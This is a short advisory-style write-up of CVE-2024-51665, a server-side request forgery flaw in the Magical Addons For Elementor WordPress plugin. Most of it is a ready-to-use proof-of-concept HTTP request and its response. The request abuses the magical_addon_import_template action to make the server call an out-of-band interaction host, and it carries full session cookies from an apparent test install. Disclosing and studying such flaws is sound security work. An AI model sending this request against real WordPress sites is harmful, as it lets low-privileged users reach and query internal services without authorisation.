 # CVE-2024-51665
Magical Addons For Elementor &lt;= 1.2.1 - Authenticated (Subscriber+) Server-Side Request Forgery

# Description:
The Magical Addons For Elementor ( Header Footer Builder, Free Elementor Widgets, Elementor Templates Library ) plugin for WordPress is vulnerable to Server-Side Request Forgery in all versions up to, and including, 1.2.1. This makes it possible for authenticated attackers, with Subscriber-level access and above, to make web requests to arbitrary locations originating from the web application which can be used to query and modify information from internal services.

```
CVE: CVE-2024-51665
CVSS: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:L/A:N
CVSS Score: 6.4
Slugs: magical-addons-for-elementor
```

POC
---

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: wordpress_e2df32a6c3e7076dd7dc7d3f3fec39aa=admin%7C1731408607%7CmiG195bwGw9U0MCeugmpqKixxK2Y5xcpwWpLTeKrE5N%7C4da380106f854d896c9d58cf609bf00c508c045357a73fbc0c5ea3e2d4925573; _delighted_web={%22FutSOUgy5edCcTk9%22:{%22_delighted_fst%22:{%22t%22:%221694595337803%22}}}; mailpoet_page_view=%7B%22timestamp%22%3A1727811617%7D; wordpress_admin_logged_in=1; LUMISESESSID=TE3CYBG1VFQEDZU5QXW7; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; tk_ai=woo%3A4etnnSH4LBZewXIFkJECnLd0; PHPSESSID=786ef110eb080f5686818c346edde8d3; wp-settings-time-4=1731070503; sbjs_migrations=1418474375998%3D1; sbjs_current_add=fd%3D2024-11-08%2017%3A21%3A02%7C%7C%7Cep%3Dhttp%3A%2F%2Fkubernetes.docker.internal%2F%7C%7C%7Crf%3D%28none%29; sbjs_first_add=fd%3D2024-11-08%2017%3A21%3A02%7C%7C%7Cep%3Dhttp%3A%2F%2Fkubernetes.docker.internal%2F%7C%7C%7Crf%3D%28none%29; sbjs_current=typ%3Dtypein%7C%7C%7Csrc%3D%28direct%29%7C%7C%7Cmdm%3D%28none%29%7C%7C%7Ccmp%3D%28none%29%7C%7C%7Ccnt%3D%28none%29%7C%7C%7Ctrm%3D%28none%29%7C%7C%7Cid%3D%28none%29%7C%7C%7Cplt%3D%28none%29%7C%7C%7Cfmt%3D%28none%29%7C%7C%7Ctct%3D%28none%29; sbjs_first=typ%3Dtypein%7C%7C%7Csrc%3D%28direct%29%7C%7C%7Cmdm%3D%28none%29%7C%7C%7Ccmp%3D%28none%29%7C%7C%7Ccnt%3D%28none%29%7C%7C%7Ctrm%3D%28none%29%7C%7C%7Cid%3D%28none%29%7C%7C%7Cplt%3D%28none%29%7C%7C%7Cfmt%3D%28none%29%7C%7C%7Ctct%3D%28none%29; sbjs_udata=vst%3D4%7C%7C%7Cuip%3D%28none%29%7C%7C%7Cuag%3DMozilla%2F5.0%20%28Macintosh%3B%20Intel%20Mac%20OS%20X%2010.15%3B%20rv%3A132.0%29%20Gecko%2F20100101%20Firefox%2F132.0; woocommerce_items_in_cart=1; woocommerce_cart_hash=6d1d20e1fd5e4f4f3846eea4a6c448f3; wp_woocommerce_session_e2df32a6c3e7076dd7dc7d3f3fec39aa=1%7C%7C1731322046%7C%7C1731318446%7C%7C1878869e68ff1672506462f9d2b69bb9; wp_masteriyo_session_e2df32a6c3e7076dd7dc7d3f3fec39aa=1%7C%7C1731344010%7C%7C1731340410%7C%7C438a61e5a677a01984451f5aca4a5945; wordpress_logged_in_e2df32a6c3e7076dd7dc7d3f3fec39aa=admin%7C1731408607%7CmiG195bwGw9U0MCeugmpqKixxK2Y5xcpwWpLTeKrE5N%7C5a938f0f09db5c9aff66b41764f880910ac3f0232da95a6b9436a266b3e84e27; wp-settings-1=m02pzb9ihm%3Dundefined%26libraryContent%3Dbrowse; wp-settings-time-1=1731235808
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 97

action=magical_addon_import_template&id=1&parent_site=suvjjaixwwfhtvhfbtjikrp9sk6je4edb.oast.fun/
```

```
HTTP/1.1 200 OK
Date: Sun, 10 Nov 2024 12:00:47 GMT
Server: Apache/2.4.57 (Debian)
X-Powered-By: PHP/8.2.13
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0, no-store, private
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Content-Length: 4
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

null
```
